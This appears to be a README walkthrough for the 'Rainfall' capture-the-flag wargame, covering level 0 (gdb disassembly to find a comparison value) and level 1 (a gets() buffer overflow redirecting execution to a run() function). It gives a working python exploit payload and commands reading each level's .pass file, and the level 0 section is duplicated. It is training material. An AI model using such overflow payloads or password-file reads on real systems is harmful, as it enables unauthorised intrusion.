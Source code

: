 # Rainfall

---

## Introduction

 This is the continuation of snow-crash...
 Each level presents a unique puzzle or exploit that you must solve to find a hidden flag and move on to the next challenge
 Whether you are a beginner or an experienced hacker, these exercises will test your problem-solving abilities and expand your knowledge in various aspects of cyber security.

|<h1>Cyber Security</h1>|
|-|
| <img width=500px src=https://www.asylas.com/asylas/security-memes-our-year-end-humor-break/> |

---

## ![Disassemble the memory](https://img.shields.io/badge/Level-0-blue) Disassemble the memory

![Disassemble the memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level you have to dissasamble the memory where you will find that there is an execution which will allow you to see the password for the next level if the `cmp` is meet.

**Steps:**
1. **Execute the debugger**
   `gdb level0`
   `disas main`
   `0x08048ed4 <+20>:   call   0x8049710 <atoi>`
   `>0x08048ed9 <+25>:  cmp    $0x1a7,%eax`
2. **Convert the number to see what you need to compare == true**
   `echo $((16#1a7)) // 423`
3. Execute with the answer
   `./level0 423`
4. Show the password
   `whoami // level1`
   `cat /home/user/level1/.pass`


You will realize the last step (4.) it's repeated a lot throughout the whole project...

---

## ![Disassemble the memory](https://img.shields.io/badge/Level-0-blue) Disassemble the memory

![Disassemble the memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level you have to dissasamble the memory where you will find that there is an execution which will allow you to see the password for the next level if the `cmp` is meet.

**Steps:**
1. **Execute the debugger**
   `gdb level0`
   `disas main`
   `0x08048ed4 <+20>:   call   0x8049710 <atoi>`
   `>0x08048ed9 <+25>:  cmp    $0x1a7,%eax`
2. **Convert the number to see what you need to compare == true**
   `echo $((16#1a7)) // 423`
3. Execute with the answer
   `./level0 423`
4. Show the password
   `whoami // level1`
   `cat /home/user/level1/.pass`
   `exit`


You will realize the last step (4.) it's repeated a lot throughout the whole project...

---

## ![Buffer Overflow `gets()`](https://img.shields.io/badge/Level-1-green) Buffer Overflow `gets()`

![Buffer Overflow `gets()`](https://img.shields.io/badge/Buffer%20Overflow%20gets()-clib-blue?style=for-the-badge&logo=lock)

**Description:** After looking at the assembler code we can identify a buffer overflow vulnerability on the unsafe use of the `gets()` function which can allow us to call the function `run()` by overflowing the address of the get's destiny and thus affecting the stack frame call (putting the address of the function run to be executed after the `gets()` call)

**Steps:**
1. **Execute the debugger**
   `i func // see the run function [0x08048444]`
   `disas main`
   `0x08048490 <+16>:   call   0x8048340 <gets@plt> // see the address of target 0x8048340`
2. **Calculate how many bytes between the address of target and run function**
   `echo $((0x08048490 - 0x08048444)) // 76 bytes`
3. **Test the hypotesis**
   `(python -c 'print("A" * 75)' | ./level1 // Nothing but input is not waiting, EOI received, must use the trick with cat -`
   `(python -c 'print("A" * 75)'; cat -) | ./level1 // Nothing`
   `(python -c 'print("A" * 76)'; cat -) | ./level1 // Illegal instruction (core dumped)`
   `(python -c 'print("A" * 77)'; cat -) | ./level1 // Illegal instruction (core dumped)`
   `(python -c 'print("A" * 78)'; cat -) | ./level1 // Segmentation fault (core dumped)`
4. Get address of run
   `objdump -d ./level1 | grep run // 08048444 <run>:`
5. Setup the exploit
   `(python -c 'print("A" * 76 + "\x44\x84\x04\x08")'; cat -) | ./level1`
6. Show the password
   `whoami // level1`
   `cat /home/user/level2/.pass`
   `exit`

---

<!--
## ![Name](https://img.shields.io/badge/Level-2-yellow) Name

---

## ![Name](https://img.shields.io/badge/Level-3-orange) Name

---

## ![Name](https://img.shields.io/badge/Level-4-red) Name

---

## ![Name](https://img.shields.io/badge/Level-5-purple) Name

---

## ![Name](https://img.shields.io/badge/Level-6-pink) Name

---

## ![Name](https://img.shields.io/badge/Level-7-lightblue) Name

---

## ![Name](https://img.shields.io/badge/Level-8-teal) Name

---

## ![Name](https://img.shields.io/badge/Level-9-cyan) Name
-->

## Conclusion

Each level provided a unique opportunity to apply and expand our skills in cyber security.


---
